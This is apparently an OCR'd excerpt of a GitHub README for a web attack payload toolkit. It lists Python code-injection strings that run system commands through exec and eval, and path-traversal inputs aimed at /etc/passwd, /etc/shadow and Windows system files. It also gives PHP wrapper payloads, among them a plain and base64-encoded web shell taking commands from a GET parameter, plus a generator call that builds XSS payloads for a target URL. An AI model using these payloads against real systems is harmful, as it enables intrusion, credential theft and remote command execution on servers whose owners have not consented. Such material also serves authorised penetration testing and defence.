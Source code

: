 #### **Python Code Injection**
```python
__import__('os').system('whoami')
exec("__import__('os').system('whoami')")
eval("__import__('os').system('whoami')")
```

### **Local File Inclusion (LFI)**

#### **Path Traversal**
```bash
# Linux
../../../etc/passwd
../../../etc/shadow
../../../var/log/apache2/access.log

# Windows
..\..\..\..\windows\system32\drivers\etc\hosts
..\..\..\..\windows\win.ini
```

#### **PHP Wrappers**
```php
# Filter wrappers
php://filter/convert.base64-encode/resource=index.php
php://filter/read=string.rot13/resource=index.php

# Data wrapper
data://text/plain,<?php system($_GET['cmd']); ?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+

# Input wrapper
php://input
[POST DATA: <?php system($_GET['cmd']); ?>]
```

## 🛠️ Advanced Usage

### **Payload Generator**

#### **Custom XSS Generation**
```javascript
// Generate platform-specific XSS
const generator = new PayloadGenerator();
const xssPayload = generator.generate({
    type: 'xss',
    platform: 'php',
    encoding: 'url',
    target: 'http://target.com/vulnerable.php?param='
});
```
